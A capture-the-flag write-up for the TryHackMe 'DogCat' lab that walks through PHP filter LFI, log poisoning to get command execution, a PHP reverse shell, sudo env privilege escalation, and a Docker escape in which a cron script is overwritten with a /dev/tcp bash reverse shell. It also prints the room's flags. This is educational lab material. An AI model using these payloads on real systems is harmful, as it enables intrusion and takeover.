






# DogCat

## Description

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

# Initial Scan

I start with an Nmap scan and it revealed two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
~~~

# Web

Let's head to the webpage. It is a simple page with two buttons: `A dog` and `A cat` which show random dog and cat pics.

By clicking on the buttons and checking the source code, we can see that there are two directories: `/dogs` for dog pics and `/cats` for cat pics. Also `gobuster` didn't find anything interesting, except those two directories.

## LFI

I tried some simple LFI (Local File Inclusion), and it seems like that php filters are working. I converted `/index.php` to a base64 string by navigating to the following.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ curl -s "http://$IP/?view=php://filter/read=convert.base64-encode/resource=./dog/../index"    
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    

        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a> 
        Here you go!PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk   [REDACTED]    ICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==    

</body>

</html>
~~~

Then I decoded it and saved it in "index.php", which you can find in the files.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk    [REDACTED]    ICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d | tee ./files/index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    

        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a> 
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    

</body>

</html>
~~~

Now that we have the code, we can figure out how it works. It checks if the parameter `ext` exists and if it doesn't, it appends `.php` to the included page which is the `view` parameter. We can use this to include a non-php file. It checks if the `dog` or `cat` is a part of the `view` parameter which we bypassed earlier (./dog/../index).

I also read the other two php files (`cat.php` and `dog.php`) with the same method and they simply just choose a random number between 1 and 10 and append `.jpg` to them and return the name of that image.

With these info we can try to read the apache log file (due to the gobuster directory brute-force, the logs were very messy, so I restarted the machine to keep things clean : )  ).

I use `burpsuite` from now on to make things easier to figure out.

As we can see, all the requests we've made and the user-agents are here.

Now let's try to change the user-agent and see the results. (two see the result of your work, you have to send a request after the first one to see your result.)

**Note**: To see the result of your work, you have to send a request after the first one.

As we can see the user-agent has changed. Now we try to inject some PHP code into the user-agent.**(DON'T DO THIS! YOU'LL SEE WHY)** I tried a simple command (`ls`) here to see if it works and somehow I broke the machine, so we start again. XD

This time I tried a webshell like command:

Great! Now we can execute commands.

## Reverse Shell

Now that we can execute commands, we can upload a php reverse shell which you can get [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and get a shell. First I started a server and set up a listener and then sent the following request.

Server:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/DogCat/files]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
~~~

And now we have a shell as "www-data"

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/DogCat]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.2.65] from (UNKNOWN) [10.10.24.27] 59548
Linux 832a825e8843 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 16:39:46 up 34 min,  0 users,  load average: 0.00, 0.00, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Flag 1

I remember that I saw a file in `/var/www/html` with word **"flag"** in it and I was right.

~~~
cd /var/www/html
cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
~~~

Flag 1: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

## Flag 2

I found flag 2 in `/var/www/`:

~~~
cat /var/www/flag2_QMW7JvaY2LvK.txt

THM{LF1_t0_RC3_aec3fb}
~~~

Flag 2: `THM{LF1_t0_RC3_aec3fb}`

## Going Root

Next I tried `sudo -l` to see my permissions and I can easily gain root access:

~~~
sudo -l
Matching Defaults entries for www-data on 832a825e8843:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 832a825e8843:
    (root) NOPASSWD: /usr/bin/env
sudo /usr/bin/env /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Flag 3

Next I checked `/root` and found flag 3:

~~~
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
~~~

Flag 3: `THM{D1ff3r3nt_3nv1ronments_874112}`

## Getting out of the container

I looked a lot in the directories but couldn't find the last flag, then I realized something in `/`:
~~~
cd /
ls -la
total 80
drwxr-xr-x   1 root root 4096 Oct 11 16:07 .
drwxr-xr-x   1 root root 4096 Oct 11 16:07 ..
-rwxr-xr-x   1 root root    0 Oct 11 16:07 .dockerenv  <---------------
drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
[REDACTED]
~~~

We are in a docker container and we need to get out. We can also see this from the result of running `hostname`.

I found a file called `backup.sh` in `/opt/backup` and by running the `ls -l`, we can see that the `tar` file in the same directory has been modified recently which means that the bash script is running every minute and it creats a new tar file.

We can use this cronjob to escape. I changed the bash script to a bash reverse shell and started a listener on my machine and now we are out.

~~~
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Oct 11 17:08 backup.tar
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.9.2.65/8888 0>&1' > backup.sh
~~~

after waiting for a few seconds I got a shell as root:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/DogCat/files]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.2.65] from (UNKNOWN) [10.10.24.27] 56092
bash: cannot set terminal process group (4777): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~#
~~~

## Flag 4

I found flag 4 in `/root`:
~~~
cat flag4.txt
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
~~~

Flag 4: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

# D0N3!  ; )

Thanks to the creators of this room!

Hope you had fun hacking and have a good one!  : )